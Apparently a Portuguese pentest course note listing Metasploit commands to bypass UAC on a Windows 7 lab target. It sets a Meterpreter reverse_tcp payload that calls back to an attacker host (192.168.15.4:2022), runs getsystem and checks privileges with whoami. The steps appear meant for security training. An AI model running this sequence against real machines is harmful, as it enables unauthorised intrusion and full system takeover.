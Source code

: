 #DIO #CYBERSECURITY #PENTEST 

Máquina alvo -> Windows 7


* background
* sessions
* search uac (User Account Control)
* ==use exploit/windows/local/bypassuac==
* set payload windows/meterpreter/reverse_tcp (O usado no executável para abrir sessão?)
* show targets (Qual arquitetura que bate com o SO e o Backdoor Executável)
* set target 0
* set LHOST 192.168.15.4 (Atacante)
* set LPORT 2022 
* show options
* set session 1
* exploit
* ##### ==getsystem== 

Para checar os privilégios:
* shell
* whoami [[1a - Exploração_Infos]]]
* whoami /priv [[1a - Exploração_Infos]]


